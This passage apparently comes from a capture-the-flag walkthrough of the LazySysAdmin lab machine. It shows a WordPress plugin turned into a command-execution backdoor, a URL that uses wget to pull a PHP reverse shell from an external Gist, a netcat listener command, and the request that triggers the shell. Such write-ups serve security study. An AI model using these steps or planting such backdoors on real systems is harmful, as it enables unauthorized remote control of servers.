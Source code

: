 I commented the return instruction, add a line to execute shell command, and return the shell command result to be printed in place of the previous _Hello Dolly_ song lyrics.

![Aww Yeah](/assets/images/posts/lazysysadmin-wp-rce.png)

### PHP Reverse Shell

I uploaded PHP reverse shell script for me to gain reverse shell access at GitHub using anonymous Gist feature.

```
https://gist.githubusercontent.com/anonymous/5cf1bb6324abcc8041c4f9e28d5f8424/raw/94a5905fca7a8a21ef4cda2cdc13e6511c7a2856/php-reverse-shell.php
```

Then, I had the Hello Dolly plugin downloaded it using `wget` by hitting this URL on my browser.

```
http://192.168.0.107/wordpress/wp-admin/index.php?cmd=wget+https%3A%2F%2Fgist.githubusercontent.com%2Fanonymous%2F5cf1bb6324abcc8041c4f9e28d5f8424%2Fraw%2F94a5905fca7a8a21ef4cda2cdc13e6511c7a2856%2Fphp-reverse-shell.php
```

Sweet. Now I set up `netcat` to listen to port 1234, the port my PHP reverse shell is connecting to.

```
$ nc -lnvp 1234
```

I accessed PHP reverse shell from my browser.

```
http://192.168.0.107/wordpress/wp-admin/php-reverse-shell.php
```
